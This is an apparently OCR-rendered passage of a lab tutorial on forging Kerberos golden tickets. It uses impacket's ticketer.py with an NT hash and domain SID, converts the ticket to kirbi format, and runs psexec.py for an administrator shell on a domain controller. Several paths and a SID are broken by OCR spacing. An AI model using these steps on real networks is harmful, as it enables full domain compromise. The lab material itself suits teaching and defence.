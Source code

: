 ### Forge a custom TGT
Regardless of how we obtain the two information, once we have them,
we can forge arbitrary TGT with custom malicious data.

Consider the **ticketer.py** script, included in the **impacket** suite. The duration of the tickets created like this is fixed to 10 years from the moment of creation.

```shell
ticketer.py -nthash 0d72117dbb5e29489df175068f399d91 -domain-sid S-1-5-21-2273708531 2432934561-2696658194 -domain hexdump.lab administrator
```


The previous command should have generated an
**administrator.ccache**, which contains the TGT saved in the **ccache**
format. Notice that there is also another format for saving kerberos
tickets, which is known as the **kirbi** format, which is used by
**Mimikatz** for example.

To convert from a **ccache** to **kirbi** proceed as follows

```shell 
export
KRB5CCNAME=/home/leo/projects/YOUTUBE/yt-en/TBD-active-directory-TBD-ticket-forging-attacks/content/data/administrator.ccache
ticketconverter.py /home/leo/proj ects/YOUTUBE/yt-en/ TBD-active-directory-TBD- ticket-forging-attacks/content/data/administrator.ccache administrator.kirbi
```

At the end we have the two different formats
```bash
-rw-r--r-- 1 leo leo 1.2K Apr 20 03:24 administrator.ccache
-rw-r--r-- 1 leo leo 1.3K Apr 20 03:41 administrator.kirbi
```

### Use the custom TGT
Once we have the tickets we can use them either from
attacker machine or from a windows attacker machine.
for example that we're working from a linux attacker

First, we set the ticket into the active cache
```bash
export KRB5CCNAME=/path/to/your-ticket.ccache
```

We can check currently activated tickets with **klist**
```bash
klist
```

```output
Ticket cache: FILE:/home/ leo/proj ects/YOUTUBE/yt-en/TBD-active-directory-TBD- ticket-forging-attacks/cont ent/data/administrator.ccache
Default principal: administrator@HEXDUMP.LAB
```

Then, we can execute **psexec.py** to authenticate with kerberos using the created ticket and obtain our shell as administrator
```bash
sudo ntpdate -u 192.168.122.30 # to syncrontze time, if clock skew is too great
psexec-py -k -no-pass hexdump.lab/administrator@dc01.hexdump.lab
```
